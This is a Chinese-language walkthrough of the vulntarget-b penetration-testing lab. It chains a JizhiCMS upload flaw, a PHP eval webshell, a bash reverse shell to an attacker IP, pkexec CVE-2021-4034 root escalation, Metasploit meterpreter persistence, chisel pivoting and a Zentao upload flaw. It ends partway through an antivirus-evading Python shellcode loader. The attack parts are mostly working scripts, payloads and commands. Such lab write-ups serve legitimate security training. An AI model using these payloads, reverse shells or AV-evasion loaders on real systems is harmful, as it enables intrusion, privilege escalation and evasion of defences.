

# vulntarget-b

## 简介

[vulntarget 漏洞靶场系列（二）— vulntarget-b](https://mp.weixin.qq.com/s/S3aiKN_IIhxWRyizAb8zLg)

靶场的网络拓扑


需要在虚拟网络编辑器中，定义两个虚拟网络

```plaintext
VMnet18 Host-only: 10.0.20.0/24
VMnet19 Host-only: 10.0.10.0/24
```

`centos` 这台虚拟机作为入口机，默认的网卡包含一张桥接模式的虚拟网卡，可以视实际情况进行修改

直接导入 3 个虚拟机即可，公众号写的是设计靶场的过程

建议按照 `server2016` ->  `win10`->  `centos` 的顺序进行启动虚拟机

:::warning

`win10` 这台靶机带有自动睡眠，需要注意

:::

```plaintext title="账号信息"
server2016 域控

- Domain: vulntarget.com

- Domain Username: administrator
- Domain Password: Admin@123

- Domain Username: win101
- Domain Password: admin#123

win10 域成员

- Local Username: win10
- Local Password: win10#123

- Local Administrator: administrator
- Local Admin-Password: admin@123

- Domain Username: vulntarget\win101
- Domain Password: admin#123

- Web-Pannel Username: admin
- Web-Pannel Password: Admin123

centos 入口机
- root/root
- vulntarget/root
```

:::warning

server2016 域控 使用原有密码登陆的时候，会触发强制密码更改规则

我这边改为 `zxc@123zxc`

:::

## `centos` 虚拟机修复

因为我自己将网卡桥接改为 NAT 网卡，导致 `centos` 这台虚拟机的网络失效，需要进入系统手动修复网络

使用 `root/root` 登陆系统

```shell
nmcli connection show
```


```shell
ip address
```


可以看到，是 `ens33` 这个网卡的配置存在问题

```shell
nmcli connection show ens33
```

直接删除旧的配置文件

```shell
nmcli device status
nmcli connection delete ens33
```


写一个新的配置

```shell
nmcli connection add con-name ens33 \
type ethernet \
ifname ens33 \
ipv4.method auto
```


就可以正常进行攻击了

## centos 侦察

直接使用 `fscan` 进行端口扫描

```shell
start infoscan
192.168.200.12:22 open
192.168.200.12:21 open
192.168.200.12:81 open
192.168.200.12:3306 open
192.168.200.12:80 open
192.168.200.12:888 open
192.168.200.12:8888 open
[*] alive ports len is: 7
start vulscan
[*] WebTitle http://192.168.200.12:8888 code:302 len:219    title:Redirecting... 跳转 url: http://192.168.200.12:8888/login
[*] WebTitle http://192.168.200.12     code:200 len:1326   title: 没有找到站点
[*] WebTitle http://192.168.200.12:888 code:403 len:548    title:403 Forbidden
[*] WebTitle http://192.168.200.12:8888/login code:200 len:802    title: 安全入口校验失败
[*] WebTitle http://192.168.200.12:81  code:200 len:14404  title: 极致 CMS 建站系统
[+] SSH 192.168.200.12:22:root root
已完成 7/7
[*] 扫描结束, 耗时: 12.949238938s
```

可以发现 3 个 HTTP 服务，先尝试目录扫描，得到以下有效结果

```plaintext title="http://192.168.200.12:8888/"
[20:57:21] 308 -  287B  - /%2e%2e//google.com  ->  http://192.168.200.12:8888/../google.com
[20:58:13] 401 -  338B  - /api/swagger/static/index.html
[20:58:20] 308 -  307B  - /axis2-web//HappyAxis.jsp  ->  http://192.168.200.12:8888/axis2-web/HappyAxis.jsp
[20:58:20] 308 -  297B  - /axis//happyaxis.jsp  ->  http://192.168.200.12:8888/axis/happyaxis.jsp
[20:58:20] 308 -  319B  - /axis2//axis2-web/HappyAxis.jsp  ->  http://192.168.200.12:8888/axis2/axis2-web/HappyAxis.jsp
[20:58:22] 401 -  338B  - /base/static/c
[20:58:30] 308 -  363B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  http://192.168.200.12:8888/Citrix/AccessPlatform/auth/clientscripts/cookies.js
[20:58:33] 401 -  338B  - /code
[20:58:55] 308 -  313B  - /extjs/resources//charts.swf  ->  http://192.168.200.12:8888/extjs/resources/charts.swf
[20:58:55] 200 -    4KB - /favicon.ico
[20:59:20] 200 -  595B  - /login
[20:59:58] 403 -  234B  - /public
[21:00:04] 200 -   26B  - /robots.txt
[21:00:19] 401 -  338B  - /static/api/swagger.json
[21:00:19] 401 -  338B  - /static/api/swagger.yaml
[21:00:19] 401 -  338B  - /static/dump.sql
[21:00:27] 200 -   43KB - /tips
[21:00:39] 401 -  338B  - /web/static/c
```

```plaintext title="http://192.168.200.12:81/"
[20:57:56] 200 -  479B  - /404.html
[20:57:59] 301 -  162B  - /A  ->  http://192.168.200.12:81/A/
[20:58:06] 302 -    0B  - /admin.php  ->  http://192.168.200.12:81/admin.php/Login/index.html
[20:58:39] 301 -  162B  - /backup  ->  http://192.168.200.12:81/backup/
[20:58:39] 403 -  548B  - /backup/
[20:58:45] 301 -  162B  - /cache  ->  http://192.168.200.12:81/cache/
[20:58:45] 403 -  548B  - /cache/
[20:59:11] 200 -    4KB - /favicon.ico
[20:59:24] 200 -   14KB - /index.php
[20:59:25] 200 -  917B  - /index.html
[20:59:25] 200 -    0B  - /index.php/login/
[20:59:26] 301 -  162B  - /install  ->  http://192.168.200.12:81/install/
[20:59:26] 200 -   75B  - /install/
[20:59:26] 200 -   75B  - /install/index.php?upgrade/
[21:00:13] 403 -  548B  - /Public/
[21:00:16] 200 -   22KB - /readme.txt
[21:00:18] 200 -  157B  - /robots.txt
[21:00:26] 200 -  495B  - /sitemap.xml
[21:00:30] 301 -  162B  - /static  ->  http://192.168.200.12:81/static/
[21:00:47] 200 -  816B  - /web.config
```

同时，直接访问 `http://192.168.200.12:8888` 可以看到


很明显是宝塔面板的管理入口

## Web `192.168.200.12:81` 侦察

后台登陆界面位于 `http://192.168.200.12:81/admin.php/Login/index.html`

尝试抓包进行重放，发现验证码是可以固定不变的


尝试使用用户名 `admin` 进行密码爆破

```python
import requests

reqUrl = "http://192.168.200.12:81/admin.php/Login/index.html"

headersList = {
    "Accept": "*/*",
    "Cookie": "6bd36d3c4ffe7b8102c6b8e9787ec68b=b942a957-01b3-4b3d-b523-6a33430f1881.FgZCvCwFC_6Q9s5kTqizFq8f58A; PHPSESSID=bb3jftijfat5cr4vckgffneoap",
    "Content-Type": "application/x-www-form-urlencoded",
}

payload = "cache=0.02202580841627977&username=admin&password={PASS}&vercode=865f"

flag_failed = r'{"code":1,"msg":"\u8d26\u6237\u5bc6\u7801\u9519\u8bef\uff01"}'

with open("./top1000.txt", "r") as f:

    for i in f.read().strip().split("\n"):
        print(i)
        response = requests.request("POST", reqUrl, data=payload.format(PASS=i), headers=headersList)

        if response.text != flag_failed:
            print("*" * 10)
            print(i)
            exit()
```

得到用户密码为 `admin123`

成功登录后台


## centos 极致 CMS 文件上传构建 webshell

根据指纹信息 极致 CMS 定位到以下漏洞信息

[[代码审计] 极致 CMS1.9.5 存在文件上传漏洞_极致 cms 建站系统 漏洞 - CSDN 博客](https://blog.csdn.net/solitudi/article/details/116643890)

构造恶意的 zip 文件

```shell
$ cat shell.php
<?php @eval($_POST['shell']) ?>

$ zip -9 shell.zip shell.php
  adding: shell.php (stored 0%)
```

:::warning

未知原因，导致我环境的在线插件无法正常工作，直接手动触发下载功能

:::

```plaintext
POST /admin.php/Plugins/update.html HTTP/1.1
Host: 192.168.200.12:81
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.200.12:81/admin.php/Index/index.html
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=m4al43lu13klt51giool3jnt64
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

action=start-download&filepath=dbrestor&download_url=http%3A%2F%2F192.168.200.129%3A8080%2Fshell%2Ezip
```


文件成功下载之后，查看文件体积

```plaintext
POST /admin.php/Plugins/update.html HTTP/1.1
Host: 192.168.200.12:81
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.200.12:81/admin.php/Index/index.html
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=m4al43lu13klt51giool3jnt64
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

action=get-file-size&filepath=dbrestor&download_url=http%3A%2F%2F192.168.200.129%3A8080%2Fshell%2Ezip
```


触发解压

```plaintext
POST /admin.php/Plugins/update.html HTTP/1.1
Host: 192.168.200.12:81
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.200.12:81/admin.php/Index/index.html
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=m4al43lu13klt51giool3jnt64
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

action=file-upzip&filepath=dbrestor&download_url=http%3A%2F%2F192.168.200.129%3A8080%2Fshell%2Ezip&filesize=200
```


尝试访问上传的 webshell 文件


成功连接

## centos webshell 绕过 disable_functions

使用插件查看 disable_functions


直接执行 Bypass disable_functions

首先，写入一个 `/www/wwwroot/jizhi/shell.sh`

```shell
/bin/sh -i >& /dev/tcp/192.168.200.129/3000 0>&1
```

然后使用插件的 `PHP7 GC with Certain Destructors UAF` 打开虚拟终端，执行脚本

```shell
(www:/www/wwwroot/jizhi) $ chmod +x shell.sh
(www:/www/wwwroot/jizhi) $ ./shell.sh
```



即可得到 `centos` 的 `www` 用户的终端

## centos 提权至 root

进行一个基础探测

```shell
(remote) www@localhost.localdomain:/tmp$ getcap -r / 2>/dev/null
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
(remote) www@localhost.localdomain:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/chage
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

使用 `PEASS-ng` 进行自动化探测

```plaintext
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x. 1 root root 32K Oct 31  2018 /usr/bin/fusermount
-rws--x--x. 1 root root 24K Feb  3  2021 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x. 1 root root 73K Aug  9  2019 /usr/bin/chage
-rws--x--x. 1 root root 24K Feb  3  2021 /usr/bin/chsh
-rwsr-xr-x. 1 root root 77K Aug  9  2019 /usr/bin/gpasswd
-rwsr-xr-x. 1 root root 41K Aug  9  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x. 1 root root 44K Feb  3  2021 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x. 1 root root 32K Feb  3  2021 /usr/bin/su
---s--x--x. 1 root root 144K Oct  1  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x. 1 root root 32K Feb  3  2021 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x. 1 root root 57K Aug  9  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 24K Apr  1  2020 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x. 1 root root 28K Apr  1  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x. 1 root root 36K Apr  1  2020 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11K Apr  1  2020 /usr/sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 12K Oct 13  2020 /usr/sbin/usernetctl
-rwsr-xr-x. 1 root root 16K Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-x---. 1 root dbus 57K Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
```

并查看 sudo 二进制程序的版本

```shell
(remote) www@localhost.localdomain:/tmp$ sudo --version
Sudo version 1.8.23
Sudoers policy plugin version 1.8.23
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.23
```

说明存在有以下漏洞

```plaintext
cve-2021-3156 -> sudo
CVE-2021-4034 -> pkexec
```

理论上两个洞都能打，这里只尝试 `CVE-2021-4034`

```shell
(remote) www@localhost.localdomain:/tmp$ gcc cve-2021-4034-poc.c
(remote) www@localhost.localdomain:/tmp$ ./a.out
sh-4.2# whoami
root
sh-4.2# cat /root/flag
vulntarget{get-one-centos-privilage-promotion}
```

## centos 上线 Metasploit 持久化

首先，先生成一份 Metasploit 的马子

```shell
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.200.129 LPORT=3333 -f elf > 192.168.200.129-3333.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
```

使用 `CVE-2021-4034` 漏洞，以 `root` 权限执行马子，上线 Msfconsole

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:3333
[*] Sending stage (3045380 bytes) to 192.168.200.12
[*] Meterpreter session 1 opened (192.168.200.129:3333 -> 192.168.200.12:45328) at 2024-11-02 09:24:15 +0800

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

## 搭建内网代理

直接使用 Meterpreter 建立内网代理

```shell
meterpreter > run post/multi/manage/autoroute

[*] Running module against localhost.localdomain
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.20.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.200.0/255.255.255.0 from host's routing table.
```

然后启动 socks 服务器

```shell
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
[*] Starting the SOCKS proxy server
```

设置好 `proxychains` 配置之后，就可以进行内网扫描

## 一层内网探测

查看网卡信息

```shell
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens33
Hardware MAC : 00:0c:29:0c:a4:53
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.200.12
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::6fd2:b978:2811:56fc
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : ens37
Hardware MAC : 00:0c:29:0c:a4:5d
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.0.20.30
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::1162:e042:35a0:5cd0
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

发现一层内网 `10.0.20.0/24`

查看 ARP 表

```shell
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    10.0.20.66       00:0c:29:52:20:46  ens37
    10.0.20.254      00:50:56:f9:de:dc  ens37
    192.168.200.129  00:0c:29:07:06:1a  ens33
```

发现另外一台主机 `10.0.20.66` 的存在，上传 `fscan` 并执行扫描

```shell
start infoscan
10.0.20.66:8080 open
10.0.20.66:3306 open
[*] alive ports len is: 2
start vulscan
已完成 2/2
[*] 扫描结束, 耗时: 15.784022066s
```

## win10 web 服务侦察

尝试使用 `dirsearch` 目录扫描

:::warning

Meterpreter 的代理能力有限，建议使用其他工具，例如 `chisel`

```shell
# Kali
$ ./tools/chisel-v1.9.1/chisel_1.9.1_linux_amd64 server -p 1337 --reverse
2024/11/02 09:58:38 server: Reverse tunnelling enabled
2024/11/02 09:58:38 server: Fingerprint eJBEiCo6OqxCdKCLyYj9zH5QNuhhWwjp4iBKt0vlVeA=
2024/11/02 09:58:38 server: Listening on http://0.0.0.0:1337
2024/11/02 10:00:59 server: session#1: tun: proxy#R:10001=>socks: Listening

# Centos
(remote) root@localhost.localdomain:/tmp# ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1337 R:0.0.0.0:10001:socks
2024/11/02 10:00:58 client: Connecting to ws://192.168.200.129:1337
2024/11/02 10:00:58 client: Connected (Latency 1.277717ms)
```

:::

```plaintext
[10:02:39] Starting:
[10:02:39] 403 -  312B  - /%2e%2e//google.com
[10:02:39] 301 -  149B  - /js  ->  http://10.0.20.66:8080/js/
[10:02:40] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[10:02:51] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[10:03:05] 200 -   55B  - /api.php
[10:03:10] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[10:03:15] 301 -  151B  - /data  ->  http://10.0.20.66:8080/data/
[10:03:15] 200 -    0B  - /data/
[10:03:20] 200 -  114KB - /favicon.ico
[10:03:26] 200 -  153B  - /index.php
[10:03:27] 200 -  153B  - /index.pHp
[10:03:27] 200 -  161B  - /index.php/login/
[10:03:29] 200 -    0B  - /js/
[10:03:50] 200 -   26B  - /robots.txt
[10:04:01] 301 -  152B  - /theme  ->  http://10.0.20.66:8080/theme/
[10:04:12] 200 -    2KB - /x.php
```

:::warning

根据文件后缀大小写不敏感来看，可以初步判断是 Windows 系统

:::

将 web 服务转发出来

```shell
(remote) root@localhost.localdomain:/tmp# ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1337 R:0.0.0.0:10002:10.0.20.66:8080 &
[2] 7389
2024/11/02 10:07:53 client: Connecting to ws://192.168.200.129:1337
2024/11/02 10:07:53 client: Connected (Latency 1.311255ms)
```

直接访问


很明显是禅道框架，在登陆界面存在有测试账户，使用测试账户可以先看一下后台


得到版本信息是 专业版 `v12.4.2`

定位到 `CNVD-C-2020-121325` 任意文件上传漏洞

## win10 Zentao 任意文件上传

首先，手动测试得到管理员账号 `admin/Admin123`

首先，编写一个一句话传到 `centos` 上

```shell
(remote) root@localhost.localdomain:/tmp# echo PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKSA/Pg== | base64 -d > shell.php
(remote) root@localhost.localdomain:/tmp# cat shell.php
<?php @eval($_POST['shell']) ?>
```

然后启动临时的 Python http server

```shell
(remote) root@localhost.localdomain:/tmp# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

计算链接参数

```shell
$ echo "http://10.0.20.66:8080/index.php?m=client&f=download&version=1&link=$(echo'HTTP://10.0.20.30:8080/shell.php'| base64)"
http://10.0.20.66:8080/index.php?m=client&f=download&version=1&link=SFRUUDovLzEwLjAuMjAuMzA6ODA4MC9zaGVsbC5waHAK
```

在禅道上触发下载

```shell
http://192.168.200.129:10002/index.php?m=client&f=download&version=1&link=SFRUUDovLzEwLjAuMjAuMzA6ODA4MC9zaGVsbC5waHA=
```


成功使用蚁剑连接


## win10 持久化

尝试侦察靶机上的安全软件


发现存在有火绒保护

使用 [Axx8/Bypass_AV: Bypass_AV msf 免杀，ShellCode 免杀加载器 ，免杀 shellcode 执行程序 ，360 & 火绒 & Windows Defender](https://github.com/Axx8/Bypass_AV) 对 msf 的马做一个免杀

生成一下 shellcode

```shell
┌──(randark ㉿ kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.20.30 LPORT=4444 --encrypt base64 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of c file: 2891 bytes
unsigned char buf[] =
"\x2f\x45\x69\x44\x35\x50\x44\x6f\x7a\x41\x41\x41\x41\x45"
"\x46\x52\x51\x56\x42\x53\x53\x44\x48\x53\x5a\x55\x69\x4c"
"\x55\x6d\x42\x52\x53\x49\x74\x53\x47\x45\x69\x4c\x55\x69"
"\x42\x57\x54\x54\x48\x4a\x53\x41\x2b\x33\x53\x6b\x70\x49"
"\x69\x33\x4a\x51\x53\x44\x48\x41\x72\x44\x78\x68\x66\x41"
"\x49\x73\x49\x45\x48\x42\x79\x51\x31\x42\x41\x63\x48\x69"
"\x37\x56\x4a\x42\x55\x55\x69\x4c\x55\x69\x43\x4c\x51\x6a"
"\x78\x49\x41\x64\x42\x6d\x67\x58\x67\x59\x43\x77\x49\x50"
"\x68\x58\x49\x41\x41\x41\x43\x4c\x67\x49\x67\x41\x41\x41"
"\x42\x49\x68\x63\x42\x30\x5a\x30\x67\x42\x30\x45\x53\x4c"
"\x51\x43\x43\x4c\x53\x42\x68\x4a\x41\x64\x42\x51\x34\x31"
"\x5a\x4e\x4d\x63\x6c\x49\x2f\x38\x6c\x42\x69\x7a\x53\x49"
"\x53\x41\x48\x57\x53\x44\x48\x41\x51\x63\x48\x4a\x44\x61"
"\x78\x42\x41\x63\x45\x34\x34\x48\x58\x78\x54\x41\x4e\x4d"
"\x4a\x41\x68\x46\x4f\x64\x46\x31\x32\x46\x68\x45\x69\x30"
"\x41\x6b\x53\x51\x48\x51\x5a\x6b\x47\x4c\x44\x45\x68\x45"
"\x69\x30\x41\x63\x53\x51\x48\x51\x51\x59\x73\x45\x69\x45"
"\x46\x59\x51\x56\x68\x65\x57\x55\x67\x42\x30\x46\x70\x42"
"\x57\x45\x46\x5a\x51\x56\x70\x49\x67\x2b\x77\x67\x51\x56"
"\x4c\x2f\x34\x46\x68\x42\x57\x56\x70\x49\x69\x78\x4c\x70"
"\x53\x2f\x2f\x2f\x2f\x31\x31\x4a\x76\x6e\x64\x7a\x4d\x6c"
"\x38\x7a\x4d\x67\x41\x41\x51\x56\x5a\x4a\x69\x65\x5a\x49"
"\x67\x65\x79\x67\x41\x51\x41\x41\x53\x59\x6e\x6c\x53\x62"
"\x77\x43\x41\x42\x46\x63\x43\x67\x41\x55\x48\x6b\x46\x55"
"\x53\x59\x6e\x6b\x54\x49\x6e\x78\x51\x62\x70\x4d\x64\x79"
"\x59\x48\x2f\x39\x56\x4d\x69\x65\x70\x6f\x41\x51\x45\x41"
"\x41\x46\x6c\x42\x75\x69\x6d\x41\x61\x77\x44\x2f\x31\x57"
"\x6f\x4b\x51\x56\x35\x51\x55\x45\x30\x78\x79\x55\x30\x78"
"\x77\x45\x6a\x2f\x77\x45\x69\x4a\x77\x6b\x6a\x2f\x77\x45"
"\x69\x4a\x77\x55\x47\x36\x36\x67\x2f\x66\x34\x50\x2f\x56"
"\x53\x49\x6e\x48\x61\x68\x42\x42\x57\x45\x79\x4a\x34\x6b"
"\x69\x4a\x2b\x55\x47\x36\x6d\x61\x56\x30\x59\x66\x2f\x56"
"\x68\x63\x42\x30\x43\x6b\x6e\x2f\x7a\x6e\x58\x6c\x36\x4a"
"\x4d\x41\x41\x41\x42\x49\x67\x2b\x77\x51\x53\x49\x6e\x69"
"\x54\x54\x48\x4a\x61\x67\x52\x42\x57\x45\x69\x4a\x2b\x55"
"\x47\x36\x41\x74\x6e\x49\x58\x2f\x2f\x56\x67\x2f\x67\x41"
"\x66\x6c\x56\x49\x67\x38\x51\x67\x58\x6f\x6e\x32\x61\x6b"
"\x42\x42\x57\x57\x67\x41\x45\x41\x41\x41\x51\x56\x68\x49"
"\x69\x66\x4a\x49\x4d\x63\x6c\x42\x75\x6c\x69\x6b\x55\x2b"
"\x58\x2f\x31\x55\x69\x4a\x77\x30\x6d\x4a\x78\x30\x30\x78"
"\x79\x55\x6d\x4a\x38\x45\x69\x4a\x32\x6b\x69\x4a\x2b\x55"
"\x47\x36\x41\x74\x6e\x49\x58\x2f\x2f\x56\x67\x2f\x67\x41"
"\x66\x53\x68\x59\x51\x56\x64\x5a\x61\x41\x42\x41\x41\x41"
"\x42\x42\x57\x47\x6f\x41\x57\x6b\x47\x36\x43\x79\x38\x50"
"\x4d\x50\x2f\x56\x56\x31\x6c\x42\x75\x6e\x56\x75\x54\x57"
"\x48\x2f\x31\x55\x6e\x2f\x7a\x75\x6b\x38\x2f\x2f\x2f\x2f"
"\x53\x41\x48\x44\x53\x43\x6e\x47\x53\x49\x58\x32\x64\x62"
"\x52\x42\x2f\x2b\x64\x59\x61\x67\x42\x5a\x53\x63\x66\x43"
"\x38\x4c\x57\x69\x56\x76\x2f\x56";
```

然后将 shellcode 加载进 python 脚本

```python
import base64
import random
import ctypes

def decode(shell_code,keys):
    shell_code_base64 = ''
    random.seed(keys)
    code = shell_code.split(',')
    for item in code:
        item = int(item)
        shell_code_base64 += chr(item ^ random.randint(0, 255))
    return shell_code_base64

def fs_decode(funcs):
    fs_keys = '123'
    func_codes = ''
    random.seed(fs_keys)
    func_code = funcs.split(',')
    for item in func_code:
        item = int(item)
        func_codes += chr(item ^ random.randint(0, 255))
    return func_codes

def encode(ShellCode,keys):
    random.seed(keys)
    ShellCode_2 = ''
    for item in ShellCode:
        ShellCode_2 += str(ord(item) ^ random.randint(0, 255)) + ','
    ShellCode_2 = ShellCode_2.strip(',')
    return ShellCode_2


def run(shellcode):
    ctypes.windll.kernel32.VirtualAlloc.restype=ctypes.c_uint64
    rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x3000, 0x40)
    funcs = '70,208,133,111,226,123,113,146,231,30,133,20,54,203,71,77,230,234,182,55,207,108,203,231,232,79,137,160,182,180,203,54,84,167,78,235,21,203,131,209,183,25,202,144,179,84,168,137,158,181,33,136,154,102,166,98,8,179,139,242,251,26,1,178,19,125,22,209,56,51,119,41,229,118,164,182,74,178,157,53,248,183,48,58,66,179,109,168,30,182,106,60,119,170,147,57,73,4,41,221,62,148,2,9,60,188,167,47,194,232,35,141,240,193,78,169,122,86'
    func = fs_decode(funcs)
    exec(func)
    handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

if __name__ == '__main__':
    ShellCode = '''"\x2f\x45\x69\x44\x35\x50\x44\x6f\x7a\x41\x41\x41\x41\x45"
"\x46\x52\x51\x56\x42\x53\x53\x44\x48\x53\x5a\x55\x69\x4c"
"\x55\x6d\x42\x52\x53\x49\x74\x53\x47\x45\x69\x4c\x55\x69"
"\x42\x57\x54\x54\x48\x4a\x53\x41\x2b\x33\x53\x6b\x70\x49"
"\x69\x33\x4a\x51\x53\x44\x48\x41\x72\x44\x78\x68\x66\x41"
"\x49\x73\x49\x45\x48\x42\x79\x51\x31\x42\x41\x63\x48\x69"
"\x37\x56\x4a\x42\x55\x55\x69\x4c\x55\x69\x43\x4c\x51\x6a"
"\x78\x49\x41\x64\x42\x6d\x67\x58\x67\x59\x43\x77\x49\x50"
"\x68\x58\x49\x41\x41\x41\x43\x4c\x67\x49\x67\x41\x41\x41"
